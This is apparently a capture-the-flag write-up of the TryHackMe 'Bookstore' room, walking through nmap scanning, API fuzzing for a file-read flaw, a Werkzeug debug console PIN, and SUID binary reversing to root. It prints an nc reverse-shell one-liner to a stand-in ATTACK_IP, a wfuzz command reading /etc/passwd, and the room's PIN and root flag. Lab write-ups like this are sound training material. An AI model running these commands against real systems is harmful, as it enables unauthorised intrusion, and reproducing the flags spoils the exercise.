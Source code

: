 ```yaml
---
title: "Bookstore TryHackMe"
layout: post
date: 2023-09-29 19:00
tag: 
- TryHackMe
- Pentesting
- Bookstore
- Fuzzing
- Web
- Meduim
- API
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aba19a5cfea503b401f5550cb1004e20.jpeg
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

A meduim TryHackMe box, with basic web enumeration and API fuzzing.

---

# Namp

```bash
nmap -A -T4 10.10.255.130   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 13:58 +01
Nmap scan report for 10.10.255.130
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After accessing the web page in port 80 I found :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140146.png>)

And port 5000 contains the following page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140127.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140218.png>)

The /api endpoint found in robots.txt gives us information how to use the request to the api :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140255.png>)

In the source code I found an interesting hint for LFI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142124.png>)

Also in the source code of main.js I found another hint, so it may be an indication that there is a version 1 :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142329.png>)

So there is actually a v1! Now, let’s fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files :

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.255.130:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143110.png>)

Found the vulnerable parameter! Now let's read /etc/passwd file :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143244.png>)

Referring to the hint found let's read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143609.png>)

Using **Gobuster** we can see the */console* endpoint :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143805.png>)

Now let's read the .bash_history file as mentioned in the hint to find the PIN for /console :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143531.png>)

PIN : 123-321-135

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143932.png>)

The bellow blog from **HackTricks** show us how to exploit that :

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Now let's get a revshell :

```bash
__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACK_IP 9999 >/tmp/f').read();
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144510.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144343.png>)

I am in as sid user!

# PE

I found an interesting file with the SUID bit set :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145653.png>)

I downloaded a copy of the binary and analyzed it in Ghidra. Below is the main() function :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145620.png>)

The program prompts for a number (local_1c), XORs it with `0x1116` and `0x5db3` (local_18) and compares the result with `0x5dcd21f4`. If they match, a root shell will be spawned.

Let’s do the reverse operation to get the correct value that will give us the ability to spawn a root shell:

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806150722.png>)

# Root flag

<p>root@bookstore:~# id</p>
uid=0(root) gid=1000(sid) groups=1000(sid)
<p>root@bookstore:/root# cat /root/root.txt</p>
e29b05fba5b2a7e69c24a450893158e3

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>